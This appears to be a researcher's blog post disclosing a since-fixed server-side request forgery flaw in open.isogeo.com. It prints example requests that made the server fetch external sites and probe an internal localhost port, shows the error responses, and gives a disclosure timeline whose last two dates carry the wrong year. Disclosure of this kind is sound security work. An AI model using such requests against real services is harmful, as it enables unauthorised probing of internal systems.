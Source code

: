 ```yaml
---
layout: post
title:  "SSRF found and fixed in open.isogeo.com"
datetime: 2022-02-08 19:45:00 MET
last_modified_at: 2022-02-08 19:45:00 MET
author: 'psytester'
---
```


A SSFR vulnerability was resolved in open.isogeo.com using the path `https://open.isogeo.com/map/schema://url`

E.g. this call gave me google France (outside of France)
```
https://open.isogeo.com/map/https://www.google.com
https://open.isogeo.com/map/http://www.google.com
https://open.isogeo.com/map/www.google.com
```

Internal access may also have been possible
```
https://open.isogeo.com/map/127.0.0.1:8090
{"error":{"errno":"EACCES","code":"EACCES","syscall":"connect","address":"127.0.0.1","port":8090}}

https://open.isogeo.com/map/unknownhost
after some timeout:
{"error":{"errno":"ENOTFOUND","code":"ENOTFOUND","syscall":"getaddrinfo","hostname":"unknownhost"}}
```

Now it's fixed, response is only:
```
{"link":"/map"}
```

# Timeline

2022-01-05 Report sent, but I got `Your email was rejected due to spam classification.`<br>
2022-01-09 Report sent to CERT France<br>
2022-01-12 Response from isogeo about my finding<br>
2021-01-xx Issue was resolved without further reply<br>
2021-02-08 Disclosure as blog post<br>

# TL;DR

HowTo vulnerability hunting?<br>
It was an accident ;-)<br>
I searched something different for some opendata web service and found an opendata service in France.<br>
I saw in browser F12 Dev console an URL call for an image, which was no redirect by browser.<br>
https://open.isogeo.com/map/getImage/https://www.......<br>
I catched this SSRF just by copy & paste error without part /getImage/.


# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2022 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
